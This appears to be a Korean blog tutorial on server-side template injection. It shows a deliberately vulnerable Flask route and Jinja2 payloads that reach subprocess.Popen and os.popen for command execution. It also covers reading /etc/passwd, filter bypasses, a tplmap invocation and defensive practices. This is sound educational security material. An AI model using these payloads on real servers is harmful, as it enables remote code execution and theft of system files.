 ```yaml
---
title: "[웹 해킹] 6.SSTI"
date: 2025-06-25 12:05 +0900
categories: ["Hacking", "SSTI"]
tags: [web, Backend]
mermaid: true
---
```



SSTI(Server-Side Template Injection)는 **서버 측 템플릿 엔진에서 사용자의 입력값이 필터링 없이 처리될 때** 발생하는 보안 취약점입니다. 이를 악용하면 서버의 민감 정보 노출, 명령 실행, 원격 코드 실행(RCE) 등으로 이어질 수 있습니다.

---

## SSTI란?

**SSTI(Server-Side Template Injection)**
사용자의 입력값이 템플릿 문법에 포함되어 서버에서 해석될 때, 공격자가 **템플릿 엔진의 기능**을 악용하여 임의의 코드를 실행시키는 공격입니다. 이는 템플릿 렌더링 시 입력값을 적절히 이스케이프하거나 필터링하지 않을 때 발생합니다.

예시 (Python Flask + Jinja2):

```python
@app.route('/')
def index():
    name = request.args.get("name")
    return render_template_string("Hello " + name)
```

→ `name={{7*7}}` 입력 시, `Hello 49` 출력 → SSTI 존재!

---

## 주요 템플릿 엔진 종류 및 사용 언어

| 언어                | 템플릿 엔진                      | SSTI 가능성          |
| ----------------- | --------------------------- | ----------------- |
| Python            | Jinja2, Mako                | 매우 흔함             |
| PHP               | Smarty, Twig                | 가능                |
| Java              | FreeMarker, Thymeleaf, JSP  | 가능                |
| Ruby              | ERB, Liquid                 | 가능                |
| JavaScript (서버 측) | EJS, Handlebars (Express 등) | 서버 측에서 렌더링 시에만 가능 |

---

## SSTI 진단 및 확인 방법

SSTI 진단은 보통 다음과 같은 템플릿 문법의 동작 여부로 판단합니다:

### 테스트 페이로드 예시

* `{{7*7}}` → `49`
* `${7*7}` → `49`
* `<%= 7*7 %>` → `49`
* `{{"a"*5}}` → `aaaaa`
* `{{config}}`, `{{self}}`, `{{request}}` → 내부 객체 출력

### 진단 예시 (Jinja2 기반):

```http
GET /?name={{7*7}} HTTP/1.1
→ Hello 49
```

---

## 악용 예시 (Jinja2 기준)

### Python 객체 체인을 통해 RCE:

Jinja2는 Python 객체에 접근할 수 있어 `__mro__`, `__subclasses__()` 등을 통해 원격 명령 실행이 가능합니다.

```jinja
{{''.__class__.__mro__[2].__subclasses__()}}  # 클래스 리스트 출력
```

### RCE까지 진행 예시 (subprocess.Popen 접근):

```jinja
{{''.__class__.__mro__[2].__subclasses__()[138]("id",shell=True,stdout=-1).communicate()}}
```

> `subclasses()[138]` 위치는 환경마다 다르므로 직접 출력해 확인해야 함.

이외에도 다음과 같은 기능도 가능:

* 파일 읽기: `open('/etc/passwd').read()`
* 환경 변수 출력: `os.environ` 접근 등

---

## 우회 기법 및 필터 우회

필터링이 `{{` 같은 기본 문법만 차단하는 경우, 다음과 같은 우회 기법이 존재:

* `{% for c in [1,2,3] %}{{c}}{% endfor %}` : 반복문 기반 우회
* `{{request|attr("args")}}` : `attr` 필터 이용
* `{{cycler.__init__.__globals__.os.popen("id").read()}}` : Jinja 내장 필터 우회

---

## 방어 방법 (Best Practices)

**템플릿 엔진에 사용자 입력 직접 전달 금지**

* 잘못된 예: `render_template_string(user_input)`
* 안전한 예: `render_template("template.html", name=user_input)`

**입력 검증 및 이스케이프 처리**

* 사용자 입력을 템플릿 문법으로 해석되지 않도록 escaping (`escape(user_input)` 등)

**템플릿 샌드박스 사용**

* Jinja2의 `SandboxedEnvironment` 활용 (단, 완전한 방어는 아님)

**정적 템플릿 사용 권장**

* 사용자 입력은 템플릿 내 변수로만 사용하고, 템플릿 구조를 직접 조작하지 않도록 설계

**WAF 적용 및 로깅**

* 특이한 템플릿 문법이나 함수 사용 패턴에 대한 탐지 및 차단

---

## 실전 SSTI 테스트 도구

* **tplmap** ([https://github.com/epinna/tplmap](https://github.com/epinna/tplmap))

  * 다양한 템플릿 엔진에 대해 자동 탐지 및 페이로드 실행 지원
  * RCE, 파일 읽기 등 지원

```bash
python tplmap.py -u "http://target.com/page?name=INJECT_HERE"
```

---

## 요약 정리

| 항목    | 내용                                           |
| ----- | -------------------------------------------- |
| 정의    | 템플릿 문법에 포함된 입력이 서버에서 실행되는 취약점                |
| 발생 조건 | 사용자 입력이 검증 없이 템플릿 문법에 포함될 때                  |
| 영향    | 정보 유출, 코드 실행, 시스템 접근, RCE                    |
| 진단법   | `{{7*7}}`, `${7*7}`, `<%= 7*7 %>` 삽입 후 결과 확인 |
| 방어법   | 직접 렌더링 금지, escaping, 정적 템플릿 사용, 샌드박스 적용      |
| 도구    | tplmap 등 자동화 도구 활용                           |

---

**추가 요청 시** 프레임워크별 SSTI 취약점 분석, 우회 페이로드, 실전 시나리오도 제공 가능합니다.
